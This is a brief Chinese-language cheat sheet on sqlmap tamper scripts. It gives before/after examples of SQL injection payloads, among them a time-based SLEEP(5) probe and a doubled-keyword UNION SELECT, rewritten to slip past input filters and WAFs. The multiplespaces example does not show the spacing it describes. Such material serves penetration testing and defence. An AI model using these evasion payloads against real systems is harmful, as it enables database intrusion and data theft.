 # sqlmap常见功能

![sqlmap%E5%B8%B8%E8%A7%81%E5%8A%9F%E8%83%BD%20a70ad84c1390488c816e49ecbfaab094/Untitled.png](sqlmap%E5%B8%B8%E8%A7%81%E5%8A%9F%E8%83%BD%20a70ad84c1390488c816e49ecbfaab094/Untitled.png)

### **apostrophemask.py**

适用数据库：ALL作用：将引号替换为utf-8，用于过滤单引号使用脚本前：`tamper("1 AND '1'='1")`使用脚本后：`1 AND %EF%BC%871%EF%BC%87=%EF%BC%871`

### **base64encode.py**

适用数据库：ALL作用：替换为base64编码使用脚本前：`tamper("1' AND SLEEP(5)#")`使用脚本后：`MScgQU5EIFNMRUVQKDUpIw==`

### **multiplespaces.py**

适用数据库：ALL作用：围绕sql关键字添加多个空格使用脚本前：`tamper('1 UNION SELECT foobar')`使用脚本后：`1 UNION SELECT foobar`

### **space2plus.py**

适用数据库：ALL作用：用加号替换空格使用脚本前：`tamper('SELECT id FROM users')`使用脚本后：`SELECT+id+FROM+users`

### **nonrecursivereplacement.py**

适用数据库：ALL作用：作为双重查询语句，用双重语句替代预定义的sql关键字（适用于非常弱的自定义过滤器，例如将select替换为空）使用脚本前：`tamper('1 UNION SELECT 2--')`使用脚本后：`1 UNIOUNIONN SELESELECTCT 2--`
